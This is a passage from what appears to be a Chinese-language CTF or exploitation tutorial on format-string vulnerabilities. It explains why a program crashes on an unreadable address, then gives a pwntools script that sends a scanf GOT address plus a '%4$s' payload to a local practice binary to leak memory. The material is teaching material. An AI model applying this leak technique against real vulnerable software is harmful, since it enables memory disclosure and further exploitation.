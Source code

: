 显然 0xffffcf00 处所对应的格式化字符串所对应的变量值 0x73243425 并不能够被改程序访问，所以程序就自然崩溃了。
不过我们可以设置一个可访问的地址，比如scanf@got。

![Alt](img/格式化字符串漏洞18.png)

利用pwntools构造payload如下

```python
    from pwn import *
    sh = process('./leakmemory')
    leakmemory = ELF('./leakmemory')
    __isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
    print hex(__isoc99_scanf_got)
    payload = p32(__isoc99_scanf_got) + '%4$s'
    print payload
    gdb.attach(sh)
    sh.sendline(payload)
    sh.recvuntil('%4$s\n')
    print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
    sh.interactive()
```

运行脚本后，在弹出的terminal中给printf下断，继续执行
